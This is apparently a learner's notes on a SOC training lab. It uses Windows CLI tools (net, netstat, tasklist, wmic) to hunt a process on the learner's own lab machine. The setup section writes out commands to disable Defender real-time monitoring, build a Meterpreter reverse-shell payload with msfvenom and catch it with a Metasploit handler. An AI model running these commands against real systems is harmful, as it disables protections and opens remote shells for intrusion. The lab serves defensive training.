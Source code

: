 ```yaml
---
{"dg-publish":true,"permalink":"/webinars-and-training/black-hills-soc-core/labs/bhis-socc-lab-windows-cli/"}
---
```



## LAB: Windows CLI
[WindowsCLI.md](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)

In this lab, we're creating and running malware on our system, and then investigating it using [[Tool Deep-Dives/Windows/NET\|net]], [[Tool Deep-Dives/Windows/netstat\|netstat]], [[Tool Deep-Dives/Windows/tasklist\|tasklist]], and [[Tool Deep-Dives/Windows/wmic\|wmic]].

### Windows Lab
1. Get the malware going
	1. Disable protections
		1. First, we disable real time monitoring, because while it's supposed to be off, it might have turned itself back on.
		2. PowerShell, as admin: `Set-MpPreference -DisableRealtimeMonitoring $true`
		3. **You SHOULD get an error.** `A general error occurred that is not covered by a more specific error code.` is a good thing, and means it's already been disabled.
	2. Get the Linux interface name and IP
		1. The lab uses `ifconfig` and I'm used to that, but `ip a` is what all the kids are doing, and you gotta keep up with the times.
			1. Mine is `eth0` and IP `172.17.28.218/20`
			2. *Yours will be different*
	4. Create and deploy the malware
		1. In the same Linux panel, create the Meterpreter malware, and name it something totally legit, like *TrustMe.exe*^[This can be any name you want; for example, notepad.exe]
			1. We're badguys, so jumping right in with `sudo su -`
			2. Create the malware using [[Tool Deep-Dives/Metasploit/msfvenom\|msfvenom]], a Metasploit payload generator and encoder.
				1. `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=eth0 lport=4444 -f exe -o /tmp/TrustMe.exe`
				2. **NOTE**: `lhost` can be the IP *or* the interface.
					1. I'm making this kinda copy-paste^[We'll see how that goes if/when I come back to this lab in a few weeks time.], so using `eth0` instead of my IP
			3. Check the file and move it onto the Windows system in the tools folder
				1. `cd /tmp && ls -l TrustMe.exe && cp ./TrustMe.exe /mnt/c/tools`
	5. Start the Metasploit handler^[I never met a sploit I couldn't handle.^[I'm sorry, I'm so sorry, please don't hate me.]]
		1. Create a new terminal in Linux and elevate to root
			1. `sudo su -`
		2. Configure Metasploit
			1. Launch Metasploit
				1. `msfconsole -q`
			2. Configure the handler
				1. `use exploit/multi/handler`
				2. `set PAYLOAD windows/meterpreter/reverse_tcp`
				3. `set LHOST eth0`
			3. [Run](https://www.youtube.com/watch?v=mw2kKyJu9gY)
				1. `exploit`
		3. Execute `TrustMe.exe`
			1. Open CMD as Admin, `cd \tools`, then run `TrustMe.exe`
			2. **NOTE**: While I was documenting everything, something got borked and it didn't work.
				1. I think I just took too long.
				2. I killed the Terminal, killed the "Apache Workbench" (or something similar) in Task Manager, and started from the beginning, and everything worked fine.
		4. Confirm we have access
			1. Navigate back over to the Metasploit terminal, and you should see the connection initiated
			2. ![BHIS-SOCC-lab-WindowsCLI.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI.png)
2. Create a sharedrive and some sessions
	1. This is not part of the malware section, and I think it's just setup
	2. Open CMD as Admin, and create a new shared folder
		1. `net share class=C:\Tools`
			2. `net share` creates a shared folder
			3. `class` is the name of the shared folder, and it routes to `C:\Tools`
				1. The share name could be anything; `tools`, `sharedrive`, or `BunchOfGarbageFiles`
			4. The folder can then be accessed with `\\<computer address>\class`
				1. This is either the name of the computer or its network address
				2. e.g., `\\Computer-name\class` or `\\192.168.0.1\class`
		2. `net use * \\127.0.0.1\c$`
			1. `net use` maps a network share to a local drive number
			2. `*` tells it to use the first available drive number
				1. In my case, `Z:`
			3. `\\127.0.0.1\c$` identifies the remote computer (`127.0.0.1`) and the *remote* assigned drive name (`c$`)
				1. In this case, the C drive
				2. Many years ago in a fairly unrestricted work environment, I would often remotely drop scripts and installers directly onto client computers by going to `\\JDOE-1234\c$\Installers`
					1. These files would then be accessible at `C:\Installers`
3. Find the baddies
	1. Start by checking for network shares on this computer
		1. `net session`
			1. Shows us all the remote sessions initiated on this computer.
		2. `net use`
			1. Shows all the active shared drive connections, in this case the share locally known as `Z:`, and remotely known as `\\127.0.0.1\c$`
		3. `net view \\127.0.0.1`
			1. Since we've noticed that 127 address being used in the prior two commands, we can use `net view` to investigate it a little more
			2. Shows all shared resources at `\\127.0.0.1`, which is the [loopback address](https://ccnadefinitions.com/ccna/20-definitions/i-pv4-address-classes/)^[The address the computer uses to refer to itself.] of the computer
			3. You should see a `Disk` called `class` listed here.
				1. If there were more than one share, you would see more.
	2. Let's use [[Tool Deep-Dives/Windows/netstat\|netstat]] to investigate
		1. `netstat -naob`
			1. List active processes; grab the PID for any suspicious *ESTABLISHED* sessions (e.g. `trustme.exe`)
				1. In my case, the PID is `7472`
			2. The format is a little unintuitive, but the first line is indented; The malware is highlighted below.
				1. ![BHIS-SOCC-lab-WindowsCLI-1.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-1.png)
	3. `netstat -f`
		1. Shows all established connections and their *Foreign Address* (`-f`)
			1. Domainless connections are pretty sus, and of course our malware ain't got no domain!
	4. `tasklist /m /fi "pid eq <PID>"`
		1. Find the associated file in the [[Tool Deep-Dives/Windows/tasklist\|tasklist]] and its associated modules (`/m`)
	5. `wmic process where processid=<PID> get commandline`
		1. This is way to indicate if something was launched from commandline
			1. Resources launched from commandline will typically just be the resource, and not the full path, etc.
		2. `TrustMe.exe` has a fairly simple output, but that got me thinking; let's do an experiment with Notepad.
			1. Launch Notepad in three ways:
				1. Start menu > Notepad
					1. Launching notepad like normal
				2. cmd: `C:\Users\adhd> notepad.exe /?`
					1. The `/?` will throw a syntax error, but Notepad will still launch and it gives us a clear delineator
				3. cmd: `"C:\WINDOWS\system32\notepad.exe"`
					1. This should mimic launching Notepad like a normal user
			2. Find the PIDs with `tasklist /m /fi "imagename eq notepad.exe"`
				1. ![BHIS-SOCC-lab-WindowsCLI-3.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-3.png)
			3. Take the PID from each Notepad process and run the `wmic` command from earlier.
				1. ![BHIS-SOCC-lab-WindowsCLI-4.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-4.png)
			4. As we can see, the Notepad processes with PID 7064 and 4036 look identical
	6. `wmic process get name,parentprocessid,processid`
		1. Pipe it to `| find "[PID]"` to identify all processes associated with the PID or parent PID
			1. Here, I progressively searched down the parent Process ID to see who launched what and when
			2. ![BHIS-SOCC-lab-WindowsCLI-2.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-2.png)
		2. So this is interesting, but let's go back and check our notepad example
			1. We can see the two processes we kicked off from the Terminal
				1. ![BHIS-SOCC-lab-WindowsCLI-5.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-5.png)
			2. Here I've drilled into the processes started in the Terminal
				1. The parent process is `WindowsTerminal.exe`, and we can see all the other shenanigans it's got running.
				2. ![BHIS-SOCC-lab-WindowsCLI-6.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-6.png)
			4. Here's what we see with the normally-begun process; it was started by "explorer.exe"
				1. It looks much more straightforward and clean.
				2. ![BHIS-SOCC-lab-WindowsCLI-8.png](/img/user/Attachments/BHIS-SOCC-lab-WindowsCLI-8.png)

### Thoughts
This was interesting, but feels like it could be optimized; maybe a script that specifically looks for processes begun by PowerShell or cmd.exe, or could visualize it by showing the whole process tree of suspicious activity. Maybe a [[Tool Deep-Dives/Python/Python\|Python]] project...

#### Other tools for threat hunting
[[Tool Deep-Dives/DeepBlueCLI\|DeepBlueCLI]]
[[Tool Deep-Dives/Windows/Sysmon\|Sysmon]]

